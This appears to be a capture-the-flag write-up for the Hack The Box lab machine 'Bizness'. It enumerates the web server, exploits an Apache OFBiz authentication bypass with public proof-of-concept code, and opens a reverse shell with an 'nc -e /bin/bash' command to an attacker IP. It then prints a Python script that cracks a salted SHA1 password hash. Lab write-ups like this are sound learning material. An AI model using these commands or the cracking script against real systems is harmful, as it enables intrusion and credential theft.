

Machine IP: 10.10.11.252

## Scanning

### Nmap

```
└─$  sudo nmap -sC -sV -oA bizness_scan 10.10.11.252
```



### Rustscan


Open ports: 22,80,443 <br />
Nginx running on port 80 <br />
Domain: https://bizness.htb on port 443 <br />

## Enumeration

### Port 80


Add IP address to /etc/hosts then reload


We have a fully loaded website <br />

### Web Enumeration

#### File & Directory Bruteforcing

File enumeration
Add URL variable:

```
export URL="https://bizness.htb/FUZZ"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
```


We have lots of 302 status code. Suppress with: <br />

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404,302 "$URL"
```


We only got index.html. <br />
Now Directory Bruteforce: <br />

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404,302 "$URL"
```


Enumerating with dirsearch to cover all grounds <br />

```
dirsearch -u https://bizness.htb/ -e php,asp,js,html,txt,bak,env
```


Navigate to /accounting directory <br />


What do we have? <br />
We are taken further to /accounting/control/main <br />
A login page <br /> <br />
Website seems to be running on OFBiz <br />

## Exploitation

Try default creds: admin: admin, admin: password, root: root, root:password, ofbiz:ofbiz <br />


We see that we get an error message stating that the password is incorrect. This is sensitive information disclosure. Read more here: https://www.parasoft.com/blog/sensitive-data-exposure-owasp-top-10/ <br />

So, now we know the username is admin. Let's check online for possible Ofbiz user creds. <br />
We get admin: ofbiz but that does not work <br />


Now we look for publicly disclosed vulnerability in Ofbiz <br />


Auth Bypass. Yes!!! We don’t have access to this looks like something we should try.<br />

::: I typically go for github PoCs because they have been modified by different users over time so it is less prone to errors. <br />

Using PoC from: https://github.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT <br />


Get code:

```
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT/main/CVE-2023-51467.py
```


Running vulnerability checker script:


We bizness.htb is vulnerable. Now, we find exploit <br />

Found PoC on: https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/README.md <br />

Git clone the github page

```
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
```


Start a listener on our kali machine on port 1234 then run exploit using:

```
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.41 1234'
```


We should have a reverse shell on our kali machine now


We're in!!! <br />

Stabilize shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Find user flag:

```
find / -name user.txt 2>&1 | grep -v 'Permission denied'
```


### Privilege Escalation

After many enumeration, we found the root user password hash in the AdminUserLoginData.xml file


There is a SHA hash in the userLoginId tag. We need to find a way to crack it.

```
{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a
```

We know it’s a derby database. We know this is a SHA hash file so there should be a salt. <br />

Read some things about Apache Derby hash collisions. Now to look for the specific hash <br />

I found this script to crack the hash:

```
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

        :param salt: The salt used in the encryption.
        :param value: The password value to be encrypted.
        :return: The encrypted password string.
        """
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        """
        Get the encrypted bytes for a password.

        :param salt: The salt used in the encryption.
        :param value: The password value to get encrypted bytes for.
        :return: The encrypted bytes as a string.
        """
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlist/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Get the number of lines in the wordlist for the loading bar
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

# Iterate through the wordlist with a loading bar and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()

        # Get the encrypted password
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))

        # Compare with the search hash
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  # Stop the loop if a match is found
```


Password:monkeybizness


